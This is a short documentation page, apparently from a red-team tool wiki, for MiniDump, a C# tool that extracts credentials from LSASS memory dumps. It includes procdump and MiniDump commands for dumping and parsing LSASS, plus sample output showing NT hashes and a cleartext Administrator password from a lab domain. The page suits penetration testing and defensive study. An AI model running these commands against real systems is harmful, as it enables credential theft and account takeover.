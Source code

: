 ```yaml
---
title : "Minidump"
# pre : ' '
description : "C# implementation of mimikatz/pypykatz minidump functionality to get credentials from LSASS dumps."
date : 2021-10-22T11:14:39+02:00
# hidden : true
# draft : true
weight : 190
tags : ['Windows', 'LSASS']
---
```


---

C# implementation of mimikatz/pypykatz minidump functionality to get credentials from LSASS dumps.

Supported Credentials:

- Lsa
- Msv
- Kerberos
- WDigest
- SSP
- TsPkg
- Credman
- Dpapi
- CloudAP

## Installation

{{%resources fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

## Usage

[Sysinternals - procdump]({{< ref "sysinternals" >}})

```plain
PS C:\> .\procdump64.exe (ps lsass).id data -ma
PS C:\> MiniDump.exe lsass.dmp
```

## Examples

```plain
PS C:\Users\johndo\Downloads> .\MiniDump.exe C:\temp\lsass.DMP
Dpapi failed: Object reference not set to an instance of an object.
=====================================================================
[*] LogonId:     0:56684667
[*] LogonType:   CachedInteractive
[*] Session:     1
[*] LogonTime:   2021-10-25 13:46:52
[*] UserName:    Administrator
[*] SID:         S-1-5-21-1182270690-2338034634-174722242-500
[*] LogonDomain: OFFSEC
[*] LogonServer: SRV2016
[*] Msv
    DomainName: OFFSEC
    UserName:   Administrator
    NT:      97f2592347d8fbe42be381726ff9ea83
    Sha1:    d0321e2e4e0712ba7b3f8c1998931312bf6a8b05
    Dpapi:   408853f35eebebe52bffa11b77478cca
[*] Kerberos
    DomainName: OFFSEC.NL
    UserName: Administrator
    Password: Welkom1234
=====================================================================
[*] LogonId:     0:55957391
[*] LogonType:   Interactive
[*] Session:     2
[*] LogonTime:   2021-10-25 13:45:17
[*] UserName:    DWM-2
[*] SID:         S-1-5-90-0-2
[*] LogonDomain: Window Manager
[*] Msv
    DomainName: OFFSEC
    UserName:   WIN10$
    NT:      b5fb60bc5eb9092f9f96b89fcf0fee45
    Sha1:    33bcd239a53d5650bebd83a4963630805ab24465
[*] Kerberos
    DomainName: offsec.nl
    UserName: WIN10$
    Password: 82 b5 45 75 ad 5b 36 d1 3e 3a cf 7b fb ea 0a ca 48 63 92 25 71 53 0b f4 2d f8 80 48 28 7f fc 96 43 5b 30 19 ba 4c 88 be 53 7b 7b 11 a9 d8 c1 23 88 e2 24 01 64 45 31 08 08 af c6 97 bb 88 6e 0f 86 05 dd 43 12 d2 81 f3 ab e1 c3 11 1e cc 42 13 d2 e4 24 fa 2f 8e 6f eb 02 70 2e d4 92 30 42 01 a9 bd f9 cc 34 63 b2 78 41 c2 f4 94 73 8a 24 9c 3d cf 1d cf d5 5a dc 8b 47 0a c6 20 62 f8 8f 70 2c 16 92 ed f6 0a 4e 59 fe d4 7d d2 94 77 11 8a 4c c2 ce 3e 45 d4 53 e4 e7 e5 96 23 99 03 29 5e 2d 85 76 66 59 39 cc 33 1a cc 7a ac e5 c9 36 1d f2 18 0a fe 8b e3 41 ae 4c bd 0c fc 1a 5b a6 1b f2 c8 00 b7 19 5c 28 90 10 4b 32 a5 38 e0 44 1d b2 72 db c9 e5 ad 86 0f 7c 34 d1 82 40 24 83 0f 2f 60 3c 28 78 dc ef 82 03 de 4a 13 33 62 c3 5f
    NT: B5FB60BC5EB9092F9F96B89FCF0FEE45
[...]
```

## URL List

- [Github.com - Minidump](https://github.com/cube0x0/MiniDump)
